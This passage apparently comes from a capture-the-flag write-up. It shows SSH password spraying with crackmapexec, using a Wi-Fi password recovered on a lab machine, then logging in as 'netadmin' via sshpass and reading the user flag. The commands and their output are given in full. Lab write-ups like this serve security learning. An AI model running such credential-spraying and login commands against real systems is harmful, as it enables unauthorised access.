 I’m not sure why it times out at first, but it eventually succeeds and finds just the main domain.

## Shell as netadmin

### SSH Password Bruteforce

With the password from the Wifi config, I’ll use `crackmapexec` to try each user from the `passwd` file with the password from the wireless config over SSH. I like to use `--continue-on-success` in case there are more than one user that shares that password. It finds one:

```
oxdf@hacky$ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' -
ontinue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!

```

### Shell

I’m able to connect with that username / password:

```
oxdf@hacky$ sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
...[snip]...
netadmin@wifinetic:~$

```

And read the user flag:

```
netadmin@wifinetic:~$ cat user.txt
e5540a0a************************

```
